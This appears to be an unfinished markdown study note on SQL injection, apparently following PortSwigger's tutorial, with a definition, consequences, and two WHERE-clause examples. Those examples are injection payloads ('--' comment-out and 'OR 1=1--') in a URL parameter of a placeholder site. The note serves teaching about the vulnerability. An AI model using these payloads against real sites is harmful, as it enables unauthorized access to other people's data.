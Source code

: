 # SQL Injection (SQLi)

## Definition

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate an SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.

## Consequences

A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information. Many high-profile data breaches in recent years have been the result of SQL injection attacks, leading to reputational damage and regulatory fines. In some cases, an attacker can obtain a persistent backdoor into an organization's systems, leading to a long-term compromise that can go unnoticed for an extended period.

## Retrieving hidden data

### SQLi in WHERE clause

If the url of a site is like the following

``
https://insecure-website.com/products?category=Gifts
``

and probably the SQL query that the request fires is

``
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
``

an attacker could construct the attack in the following ways:

``
https://insecure-website.com/products?category=Gifts'--
``

to see all the products of the category `Gifts`, because the query becomes

``
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
``

otherwise, going further

``
https://insecure-website.com/products?category=Gifts'+OR+1=1--
``

to see all the products in any category, including categories that they don't know about, because the query becomes

``
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
``

and 1=1 is always true, for every item in the table `products`.

<!-- arrived at https://portswigger.net/web-security/sql-injection - Subverting application logic [TODO] -->